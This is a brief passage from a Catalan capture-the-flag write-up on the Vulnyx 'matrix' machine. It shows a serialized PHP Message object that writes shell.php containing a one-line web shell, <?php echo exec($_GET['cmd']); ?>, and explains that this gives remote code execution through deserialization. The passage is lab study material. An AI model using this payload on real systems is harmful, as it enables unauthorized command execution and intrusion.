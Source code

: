 Executem el codi i això és el que enviarem:

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ php serialize.php 
O:7:"Message":2:{s:4:"file";s:9:"shell.php";s:7:"message";s:33:"<?php echo exec($_GET[\"cmd\"]); ?>";}
```

![alt text](../../../assets/images/matrix/image-12.png)

Ara ja tenim un RCE amb el fitxer `shell.php` creat mitjançant la deserialització del missatge en PHP.

![alt text](../../../assets/images/matrix/image-13.png)
